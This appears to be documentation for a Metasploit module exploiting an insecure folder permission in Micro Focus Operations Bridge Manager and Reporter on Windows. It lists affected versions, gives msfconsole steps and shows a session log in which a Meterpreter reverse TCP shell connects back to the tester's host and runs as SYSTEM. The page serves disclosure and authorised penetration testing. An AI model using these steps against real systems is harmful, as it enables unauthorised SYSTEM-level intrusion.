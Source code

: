 ## Vulnerable Application

This module exploits an incorrectly permissioned folder in Micro Focus Operations Bridge Manager and Operations Bridge Reporter.

An unprivileged user (such as Guest) can drop a JSP file in an exploded WAR directory and then access it without authentication by making
a request to the OBM / OBR server.
This will result in automatic code execution as SYSTEM. This module has been tested on OBM 2020.05 and 2019.11,
but it should work out of the box on earlier versions too.

According to Micro Focus the vulnerable versions are:

* Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11
* Operations Bridge Reporter versions: 10.40 and possibly earlier

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05
* https://docs.microfocus.com/itom/Operations_Bridge_Reporter:10.40/Home

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

Only the Windows version of the product is affected.

All details about these vulnerabilities can be obtained from the advisory:

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md
* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBR.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/windows/local/microfocus_operations_privesc.rb`
4. `set target TARGET`
5. `set session SESSION`
6. `set lhost YOUR_IP`
7. `run`
8. You should get a shell.

## Scenarios

```
msf6 exploit(multi/handler) > use exploit/windows/local/microfocus_operations_privec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/microfocus_operations_privec) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(windows/local/microfocus_operations_privec) > set lport 4499
lport => 4499
msf6 exploit(windows/local/microfocus_operations_privec) > set session 3
session => 3
msf6 exploit(windows/local/microfocus_operations_privec) > run

[*] Started reverse TCP handler on 10.0.0.1:4499
[*] JSP dropped, calling it @ https://127.0.0.1:443/topaz/LB_Verify.jsp
[*] Sending stage (175174 bytes) to 10.0.0.206
[*] Meterpreter session 4 opened (10.0.0.1:4499 -> 10.0.0.206:65068) at 2021-01-29 16:00:43 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
